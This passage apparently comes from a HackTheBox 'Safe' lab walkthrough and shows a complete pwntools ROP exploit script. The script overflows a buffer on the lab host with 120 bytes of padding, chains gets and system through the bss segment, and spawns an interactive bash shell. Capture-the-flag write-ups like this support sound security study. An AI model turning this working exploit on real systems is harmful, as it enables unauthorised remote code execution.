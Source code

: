 ![88110186.png](/assets/images/posts/safe-htb-walkthrough/88110186.png)
</a>

Use `pattern_offset` to determine the offset.

<a class="image-popup">
![a165b5d3.png](/assets/images/posts/safe-htb-walkthrough/a165b5d3.png)
</a>

Armed with that knowledge, you can write a ROP exploit with `pwntools` like so.

<div class="filename"><span>exploit.py</span></div>

~~~~python
from pwn import *

context(terminal=["tmux", "new-windows"])
context(os="linux", arch="amd64")

myapp = ELF("./myapp")
p     = remote("10.10.10.147", 1337)

bss = myapp.bss()
junk = 'A' * 120

# Show me the shell
rop = ROP(myapp)
rop.gets(bss)
rop.system(bss)

payload = junk + str(rop) + "/bin/bash\n" + "bash\n"

p.send(payload)
p.interactive()
~~~~


[1]: https://www.hackthebox.eu/home/machines/profile/199
[2]: https://www.hackthebox.eu/home/users/profile/91108
[3]: https://www.hackthebox.eu/